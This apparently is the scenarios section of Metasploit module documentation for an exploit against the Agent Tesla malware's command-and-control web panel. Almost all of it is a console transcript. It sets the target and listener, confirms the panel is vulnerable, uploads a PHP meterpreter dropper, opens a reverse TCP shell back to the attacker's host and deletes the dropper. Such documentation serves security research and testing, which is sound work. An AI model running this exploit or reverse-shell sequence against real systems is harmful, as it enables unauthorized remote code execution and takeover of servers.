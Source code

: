 ## Scenarios

### WebPanel1.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 5.6.40, Apache 2.4.41, MariaDB 10.4.10
```
msf > use exploit/multi/http/agent_tesla_panel_rce
msf exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     169.254.162.16   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME                    no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  169.254.115.5    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf exploit(multi/http/agent_tesla_panel_rce) > set LPORT 6633
LPORT => 6633
msf exploit(multi/http/agent_tesla_panel_rce) > check
[+] 169.254.162.16:80 - The target is vulnerable.
msf exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .rzzg.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.rzzg.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:6633 -> 169.254.162.16:51956) at 2020-06-16 16:01:57 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.rzzg.php

meterpreter > getuid
```